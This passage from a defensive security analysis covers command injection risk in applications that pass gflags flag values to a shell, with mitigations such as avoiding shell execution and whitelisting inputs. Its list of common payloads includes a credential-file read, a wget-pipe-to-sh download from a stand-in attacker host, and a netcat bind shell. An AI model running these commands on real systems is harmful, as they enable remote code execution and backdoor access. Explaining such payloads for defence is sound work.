 **2.3.  `gflags` Library Analysis (Brief)**

The `gflags` library itself is primarily concerned with parsing command-line flags and environment variables.  It doesn't inherently contain any shell execution functionality.  The key areas to consider are:

*   **String Handling:** `gflags` uses `std::string` to store flag values.  This is generally safe from buffer overflows (a common cause of vulnerabilities), but it doesn't protect against command injection if the application misuses the string.
*   **Environment Variable Handling:** `gflags` can read flag values from environment variables.  The application developer must be aware of this and ensure that any environment variables used by `gflags` are not also used unsafely in shell commands.
*   **No Direct Shell Interaction:**  `gflags` does *not* have any built-in functions to execute shell commands.  The vulnerability arises solely from how the application uses the parsed flag values.

**2.4. Vulnerability Research (Shell Escape/Command Injection)**

Command injection vulnerabilities are well-documented.  Key points:

*   **Metacharacters:**  Characters like `;`, `|`, `&`, `` ` ``, `$()`, `{}`, `<`, `>`, `*`, `?`, `[]`, `()`, `!`, and even spaces can have special meaning to the shell and can be used to inject commands.
*   **OWASP:** The Open Web Application Security Project (OWASP) provides extensive resources on command injection, including prevention techniques.
*   **Common Payloads:** Attackers often use payloads to:
    *   Read sensitive files (`cat /etc/passwd`).
    *   Download and execute malicious code (`wget http://attacker.com/malware.sh -O - | sh`).
    *   Create backdoors (`nc -l -p 1337 -e /bin/bash`).
    *   Modify system configurations.

**2.5. Mitigation Strategies**

1.  **Avoid Shell Execution if Possible:** The best defense is to avoid using the shell entirely.  If you need to execute an external program, use functions like `execvp()` (C/C++), `subprocess.run()` with `shell=False` (Python), or equivalent functions in other languages that directly execute the program without shell interpretation.

2.  **Strict Input Validation (Whitelist):**  If you *must* use a flag value in a command, implement *extremely* strict input validation.  Use a whitelist approach: define a list of allowed commands and arguments, and reject anything that doesn't match.  Do *not* rely on blacklisting (trying to block specific characters), as it's almost always possible to bypass.

3.  **Parameterization:**  Treat flag values as *data*, not as part of the command string.  Pass them as separate arguments to the execution function (e.g., the `args` vector in the `execvp()` example).

4.  **Least Privilege:**  Run the application with the lowest possible privileges.  This limits the damage an attacker can do if they achieve command execution.

5.  **Secure Coding Practices:**  Follow general secure coding practices, including:
    *   Regular code reviews.
    *   Static analysis tools.
    *   Dynamic analysis tools (fuzzing).
    *   Keeping libraries (including `gflags`) up to date.

6.  **Environment Variable Sanitization:** If your application relies on environment variables that are also used by `gflags`, carefully sanitize them before using them in any context that might involve shell execution.  Consider unsetting or overriding potentially dangerous environment variables.
